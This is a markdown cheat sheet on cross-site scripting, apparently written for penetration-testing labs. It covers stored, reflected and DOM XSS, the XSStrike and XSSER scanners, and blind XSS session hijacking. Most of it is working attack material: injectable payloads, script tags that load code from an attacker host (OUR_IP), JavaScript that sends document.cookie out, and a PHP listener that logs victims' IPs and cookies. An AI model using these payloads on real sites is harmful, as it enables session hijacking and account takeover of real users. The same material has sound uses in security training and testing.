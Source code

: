 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md
# **Stored XSS** (Persistent)
Occurs when user input is stored in the back end database and then displayed upon retrieval (e.g., posts or comments).

# **Reflected XSS** (Non-Persistent)
Occurs when user input is displayed on the page after processing (e.g., search result or error message).
# **DOM XSS** (Non-Persistent)
Occurs when user input is directly shown in the browser and is written to an HTML DOM object (e.g., vulnerable username or page title). `Document Object Model`
```xss
<img src="" onerror=alert(window.origin)>
```

```xss
#"><img src=/ onerror=alert(document.cookie)>
```

# XSS Discovery
### XSStrike
```git
git clone https://github.com/s0md3v/XSStrike.git
```
###### GET
```py
python3 xsstrike.py -u "http://example.com/search.php?q=query"
```
###### POST
```py
python xsstrike.py -u "http://example.com/search.php" --data "q=query"
```
###### JSON
```py
python xsstrike.py -u "http://example.com/search.php" --data '{"q":"query"}' --json
```
### XSSER
```xsser
xsser -u 'http://94.237.57.59:53069/?fullname=XSS&username=XSS&password=XSS&email=XSS'
```
# Session Hijacking
## Blind XSS Detection
### Loading a Remote Script
```js
<script src="http://OUR_IP:PORT/script.js"></script>
```

```js
<script src="http://OUR_IP:PORT/username"></script>
```
Start a listener
```bash
sudo php -S 0.0.0.0:80
```
Inject XSS on fields to detect vulnerabilities
```field
<script src=http://OUR_IP/fullname></script> #this goes inside the full-name field
<script src=http://OUR_IP/username></script> #this goes inside the username field
```
Create javascript payloads
```js
document.location='http://OUR_IP:PORT/index.php?c='+document.cookie;
new Image().src='http://OUR_IP:PORT/index.php?c='+document.cookie;
```
script.js
```js
new Image().src='http://OUR_IP:PORT/index.php?c='+document.cookie;
```
index.php
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
Inject this XSS to capture in the listener
```js
<script src=http://OUR_IP:PORT/script.js></script>
```


